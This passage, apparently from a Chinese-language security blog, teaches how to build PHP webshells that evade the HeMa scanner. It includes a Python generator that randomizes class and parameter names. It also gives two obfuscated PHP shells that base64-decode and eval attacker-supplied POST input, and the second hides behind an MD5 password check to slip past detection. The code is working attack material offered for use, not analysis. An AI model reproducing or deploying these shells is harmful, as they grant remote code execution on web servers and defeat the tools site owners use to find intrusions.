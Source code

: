 ```
        @eval({5}.$this->{2}.{5});
        {4}{4}
new {0}();
?>'''


def random_keys(len):
    str = '`~-=!@#$%^&_+?<>|:[]abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
    return ''.join(random.sample(str,len))

def random_name(len):
    str = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
    return ''.join(random.sample(str,len))  

def build_webshell():
    className = random_name(4)
    parameter1 = random_name(5)
    parameter2 = random_name(6)
    lef = '''{'''
    rig = '''}'''
    disrupt = "\"/*"+random_keys(7)+"*/\""
    shellc = shell.format(className,parameter1,parameter2,lef,rig,disrupt)
    return shellc


if __name__ == '__main__':
    print (build_webshell())
```

**免杀河马**  
首先我们拿出之前的样本：

```
<?php
class YHUV{
        public $BSFRM = null;
        public $YVMQFW = null;
        function __construct(){
        $this->BSFRM='ZXZhbCgkX1BPU1RbYV0pOw==';
        $this->YVMQFW = @base64_decode( $this->BSFRM );
        @eval("/*rEgV_Cd*/".$this->YVMQFW."/*rEgV_Cd*/");
        }}
new YHUV();
?>
```

直接拿去河马查杀一下，

![](https://mmbiz.qpic.cn/mmbiz_png/dAMlD06OYdJUjfSUfXxvV0uINLfUse46m7gsPmtAru1VqZBFnXSPDKfDtunTZvvnwu7jV5qk9ay7NO07LVZibGg/640?wx_fmt=png)

它很可能通过拼接得到了 "eval($_POST[xxx]);"，所以认定为木马，那我加一层认证如何  

```
<?php
class BTAG{
        public $QOMYW = null;
        public $XGTCPL = null;
        public $YIOXAL = null;
        function __construct(){
            if(md5($_GET["pass"])=="df24bfd1325f82ba5fd3d3be2450096e"){
        $this->QOMYW = 'ZXZhbCgkX1BPU';
        $this->YIOXAL = '1RbYV0pOw==';
        $this->XGTCPL = @base64_decode($this->QOMYW.$this->YIOXAL);
        @eval("/*#`|W$~Q*/".$this->XGTCPL."/*#`|W$~Q*/");
        }}}
new BTAG();
```